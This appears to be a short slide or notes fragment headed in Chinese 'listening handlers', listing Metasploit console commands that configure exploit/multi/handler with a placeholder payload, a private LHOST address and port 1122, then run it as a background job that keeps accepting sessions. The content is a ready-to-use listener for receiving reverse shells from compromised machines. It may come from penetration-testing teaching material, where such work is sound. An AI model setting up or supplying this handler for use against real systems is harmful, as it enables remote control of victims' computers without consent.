

# 侦听Handlers

use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST 192.168.8.124
set LPORT 1122
set ExitOnSession false
exploit -j -z